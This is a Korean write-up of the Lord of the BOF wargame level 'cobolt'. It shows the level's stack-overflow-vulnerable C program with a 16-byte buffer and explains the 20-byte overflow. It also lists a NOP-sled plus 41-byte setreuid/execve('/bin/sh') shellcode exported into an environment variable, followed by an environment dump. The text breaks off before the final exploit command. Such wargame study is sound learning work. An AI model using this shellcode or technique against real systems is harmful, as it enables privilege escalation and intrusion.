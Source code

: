```yaml
---
title: LOB 2번 Write-up
date: 2017-8-26 18:05:00
categories: LOB
tags: LOB, cobolt
---
```


## LOB 2번

이번 레벨은 cobolt이다. 뭔가 1번이랑 비슷해 보인다.

    [gremlin@localhost gremlin]$ ls -l
    total 20
    -rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
    -rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
    [gremlin@localhost gremlin]$ cat cobolt.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - cobolt
            - small buffer
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

`buffer`에 16바이트까지 인자를 전달받아 저장하고, `printf`로 출력한다. 이번에도 16 + 4, 즉 20바이트의 인자를 전달하면 오버플로우가 생긴다. 참고로 LOB가 돌아가는 리눅스 환경은 레드햇 6.2로 더미 메모리나 랜덤스택이 없다고 하니 더미 메모리같은것은 걱정하지 않아도 된다. 

    [gremlin@localhost gremlin]$ export shell=`python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [gremlin@localhost gremlin]$ export
    declare -x BASH_ENV="/home/gremlin/.bashrc"
    declare -x HISTSIZE="1000"
    declare -x HOME="/home/gremlin"
    declare -x HOSTNAME="localhost.localdomain"
    declare -x HOSTTYPE="i386"
    declare -x INPUTRC="/etc/inputrc"
    declare -x LANG="en_US"
    declare -x LESSOPEN="|/usr/bin/lesspipe.sh %s"
    declare -x LOGNAME="gremlin"
    declare -x LS_COLORS="no=00:fi=00:di=01;34:ln=01;36:pi=40;33:so=01;35:bd=40;33;01:cd=40;33;01:or=01;05;37;41:mi=01;05;37;41:ex=01;32:*.cmd=01;32:*.exe=01;32:*.com=01;32:*.btm=01;32:*.bat=01;32:*.sh=01;32:*.csh=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.gz=01;31:*.bz2=01;31:*.bz=01;31:*.tz=01;31:*.rpm=01;31:*.cpio=01;31:*.jpg=01;35:*.gif=01;35:*.bmp=01;35:*.xbm=01;35:*.xpm=01;35:*.png=01;35:*.tif=01;35:"
    declare -x MACHTYPE="i386-redhat-linux-gnu"
    declare -x MAIL="/var/spool/mail/gremlin"
    declare -x OSTYPE="linux-gnu"
    declare -x PATH="/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/gremlin/bin"
    declare -x PWD="/home/gremlin"
    declare -x REMOTEHOST="192.168.42.1"
    declare -x SHELL="/bin/bash"
    declare -x SHLVL="2"
    declare -x TERM="xterm"
    declare -x USER="gremlin"
    declare -x USERNAME=""
    declare -x shell="1À°1Í€‰Ã‰Á1À°FÍ€1ÀPh//shh/bin‰ãPS‰á1Ò°
                                                            Í€"

이렇게 41byte 쉘코드를 `shell`이라는 환경변수에 등록하고, `export`로 정상적으로 등록된 것을 확인하였다.







알고보니 1번을 풀었듯이 환경변수로 풀면 되는 문제였다. 차이점이 버퍼 크기가 256byte -> 16byte로 줄어들었다는 것이다. 1번은 환경변수로 풀 필요가 없이 버퍼 자체에다가 쉘코드를 넣어도 되지만, 2번은 버퍼가 16byte밖에 되지 않는 관계로 환경변수를 사용할 수 밖에 없는 것이다.